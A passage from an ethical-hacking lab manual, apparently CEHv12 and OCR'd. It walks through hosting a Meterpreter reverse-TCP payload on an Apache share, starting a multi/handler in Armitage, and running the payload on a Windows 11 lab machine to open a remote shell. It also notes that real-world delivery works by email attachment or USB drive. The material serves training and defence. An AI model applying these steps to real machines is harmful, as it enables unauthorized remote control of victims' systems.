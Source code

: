 
```
Note: If you want to create a new directory to share the malicious_payload.exe file with the target machine and provide the
permissions, use the below commands:
```
```
Type mkdir /var/www/html/share and press Enter to create a shared folder
Type chmod -R 755 /var/www/html/share and press Enter
Type chown -R www-data:www-data /var/www/html/share and press Enter
```
23. In the **Terminal** window, type **cp /root/Desktop/malicious_payload.exe /var/www/html/share/** , and press **Enter** to copy the file
    to the **shared** folder.
24. Type **service apache2 start** and press **Enter** to start the Apache server.
25. Switch back to the **Armitage** window. In the left-hand pane, double-click **meterpreter_reverse_tcp**.
26. The **windows/meterpreter_reverse_tcp** window appears. Scroll down to **LPORT** Option and change the port Value to **444**. Ensure
    that the **multi/handler** option is selected in the **Output** field; click **Launch**.

### 


27. Now, click **CEHv12 Windows 11** to switch to the **Windows 11** machine and open any web browser (here, **Mozilla Firefox** ). In the
    address bar place your mouse cursor, type **[http://10.10.1.13/share](http://10.10.1.13/share)** and press **Enter**. As soon as you press enter, it will display the
    shared folder contents, as shown in the screenshot.

```
Note: Here, we are sending the malicious payload through a shared directory; however, in real-time, you can send it via an
attachment in an email or through physical means such as a hard drive or pen drive.
```
28. Click **malicious_payload.exe** to download the file.

```
Note: 10.10.1.13 is the IP address of the host machine (here, the Parrot Security machine).
```
### 


29. Once you click on the **malicious_payload.exe** file, if the **Opening malicious_payload.exe** pop-up appears; select **Save File**.
30. The malicious file will be downloaded to the browser’s default download location (here, **Downloads** ). Now, double-click
    **malicious_payload.exe** to run the file.

### 


31. The **Open File - Security Warning** window appears; click **Run**.
32. Leave the **Windows 11** machine running and click **CEHv12 Parrot Security** switch to the **Parrot Security** machine.
33. Observe that one session has been created or opened in the **Meterpreter shell** , as shown in the screenshot, and the host icon
    displays the target system name ( **WINDOWS11** ).
